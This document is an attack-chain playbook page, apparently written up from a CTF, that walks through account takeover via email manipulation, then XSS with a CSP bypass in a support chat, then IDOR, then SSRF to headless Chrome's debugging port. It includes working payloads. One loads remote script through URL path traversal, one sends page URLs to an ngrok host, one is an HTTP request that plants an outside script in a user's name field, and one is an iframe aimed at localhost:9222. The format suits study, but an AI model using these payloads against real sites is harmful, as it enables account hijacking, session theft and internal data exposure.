

---
tags:
  - account-takeover
  - xss
  - csp-bypass
  - idor
  - ssrf
  - headless-chrome
  - information-disclosure
type: attack_chain
tools:
  - '[[tools/ngrok]]'
  - '[[tools/github-js-hosting]]'
  - '[[tools/chrome-devtools-protocol]]'
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Discovery]]'
  - '[[Collection]]'
verified: false
platforms:
  - Web
submitted: true
complexity: high
created_at: '2024-01-01T00:00:00Z'
procedures:
  - '[[procedures/Account-Takeover-via-QR-Code-Email-Manipulation]]'
  - '[[procedures/CSP-Bypass-and-XSS-in-Support-Chat]]'
  - '[[procedures/IDOR-to-Inject-XSS-into-User-Name-for-PDF-Converter]]'
  - '[[procedures/SSRF-via-Iframe-to-Headless-Chrome-Debugging-Port]]'
step_count: 4
techniques:
  - '[[Valid Accounts]]'
  - '[[JavaScript]]'
  - '[[Account Discovery]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T04:39:10.026Z'
description: >-
  A multi-stage attack exploiting account takeover via QR code manipulation, XSS
  in support chat through CSP bypass, IDOR to inject XSS payloads, and SSRF in a
  PDF converter using headless Chrome's remote debugging to leak internal
  document URLs containing sensitive flags.
skill_level: advanced
impact_level: critical
id: 3a943fe9-2e2c-405f-870f-a1bae65c4c65
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
  - '[[Discovery]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[Valid Accounts]]'
  - '[[JavaScript]]'
  - '[[Account Discovery]]'
  - '[[Exploit Public-Facing Application]]'
---
# Chained Account Takeover, XSS, IDOR, and SSRF in Headless Chrome for Sensitive Information Disclosure

Multi-stage attack chain demonstrating exploitation of web application vulnerabilities to achieve account takeover, execute arbitrary JavaScript, manipulate user data, and perform SSRF to leak internal sensitive information via headless Chrome's debugging interface.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~30 minutes |
| Skill Level | Advanced |
| Complexity | High |
| Impact Level | Critical |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/ngrok]]
- [[tools/github-js-hosting]]
- [[tools/chrome-devtools-protocol]]

### Target Environment

- Web application with QR code recovery feature, support chat, PDF converter using headless Chrome on port 9222
- Access to GitHub for hosting JS payloads
- Ngrok for exfiltration tunneling

### Initial Access Requirements

- No prior credentials needed; starts with registration
- Network access to target host (e.g., h1-415.h1ctf.com)
- Ability to create manipulated emails

## Detailed Attack Procedures

### Step 1: Account Takeover via QR Code Manipulation
procedure: [[procedures/Account-Takeover-via-QR-Code-Email-Manipulation]]

**Objective**: Register with a manipulated email to obtain another user's recovery QR code, enabling account takeover.

**Instructions**: Use a manipulated email like "jobert@mydocz.cosmic <><>" during registration. The application strips angle brackets, resulting in the target's email, and returns their recovery QR code.

**Expected Output**: Recovery QR code for the target account (e.g., jobert@mydocz.cosmic).

**Success Indicators**:
- QR code obtained for unintended user
- Ability to scan QR and access target account

### Step 2: Exploit XSS in Support Chat via CSP Bypass
procedure: [[procedures/CSP-Bypass-and-XSS-in-Support-Chat]]

**Objective**: Inject XSS payload in support chat to bypass CSP and exfiltrate review URLs using external JS hosted on GitHub.

**Instructions**: After initiating a chat and rating it 1 to trigger review, inject the XSS payload using [[commands/inject-xss-payload-support-chat]]:

```javascript
<script type="text/javascript" src="https://raw.githack.com/mattboldt/typed.js/master/lib/typed.js/../..%252f..%252f..%252f..%252fAjay-Aj-00/Test/master/final.js"></script>
```

This loads external JS via URL backtracking. The loaded JS then uses [[commands/exfiltrate-url-to-ngrok]] to send the review URL:

```javascript
window.location ="https://8a7b2695.ngrok.io/record-data?name=path&data="+btoa(window.location.href)
```

**Expected Output**: JS execution and URL exfiltrated to ngrok endpoint.

**Success Indicators**:
- External JS loaded successfully
- Review URL received on ngrok

### Step 3: IDOR to Inject XSS into User Name for PDF Converter
procedure: [[procedures/IDOR-to-Inject-XSS-into-User-Name-for-PDF-Converter]]

**Objective**: Exploit IDOR in support review endpoint to update a target user's name with an XSS payload that triggers in the PDF converter.

**Instructions**: Send a POST request to /support/review/{review_id} using [[commands/post-support-review-idor]] with target user_id=18 and XSS in name:

```http
POST /support/review/efe74fb38a69eae74f733a3e035edf33ed14f34af0755495ff6abae219155587 HTTP/1.1
Host: h1-415.h1ctf.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://h1-415.h1ctf.com/support/review/88cdddff2719525210a5cdc95f3cf7f14c83f6e44caf87f5ec4255a9f69e35eb
Content-Type: application/x-www-form-urlencoded
Content-Length: 135
Origin: https://h1-415.h1ctf.com
Connection: close
Cookie: _csrf_token=46cb8a62c3c99b5d5a2c045baecf9039216a3cee; session=eyJfY3NyZl90b2tlbiI6IjQ2Y2I4YTYyYzNjOTliNWQ1YTJjMDQ1YmFlY2Y5MDM5MjE2YTNjZWUifQ.Xikx5g.KDxEtKJxN1cDleoMbr6adoqpgCs
Upgrade-Insecure-Requests: 1

name=<script src="https://8a7b2695.ngrok.io/static/js/new.js"></script>&user_id=18&_csrf_token=46cb8a62c3c99b5d5a2c045baecf9039216a3cee
```

**Expected Output**: User's name updated to include XSS payload.

**Success Indicators**:
- 200 OK response without authorization error
- Payload visible in target user's profile

### Step 4: SSRF via Iframe to Headless Chrome Debugging Port
procedure: [[procedures/SSRF-via-Iframe-to-Headless-Chrome-Debugging-Port]]

**Objective**: Trigger the injected XSS in the PDF converter to perform SSRF via iframe to localhost:9222, leaking internal tabs and secret document URLs.

**Instructions**: Trigger the PDF converter at /converter/{doc_id}.png?user_name={xss_payload}. The XSS uses [[commands/create-iframe-ssrf-chrome]]:

```javascript
window.onload=function(){ document.write('<iframe src="http://localhost:9222/json/list" width="100%" height="100%"></iframe>'); };
```

This accesses [[commands/get-chrome-debug-json-list]] to list tabs:

```http
GET /json/list
```

**Expected Output**: JSON response listing tabs, including secret URL like https://h1-415.h1ctf.com/documents/0d0a2d2a3b87c44ed13e0cbfc863ad4322c7913735218310e3d9ebe37e6a84ab containing the flag.

**Success Indicators**:
- Iframe loads internal JSON
- Secret document URL exposed and accessible

## Attack Chain Summary

### Key Achievements

1. Account takeover without credentials via email manipulation
2. CSP bypass and XSS execution to steal review URLs
3. Unauthorized user data modification via IDOR
4. SSRF exploitation to leak internal sensitive information

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]] Valid Accounts (Account Takeover)
- [[JavaScript]] JavaScript for Automation (XSS Execution)
- [[Account Discovery]] Account Discovery (IDOR)
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application (SSRF)

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Execution]] Execution
- [[Discovery]] Discovery
- [[Collection]] Collection

---

*Last updated: 2024-01-01T00:00:00Z*
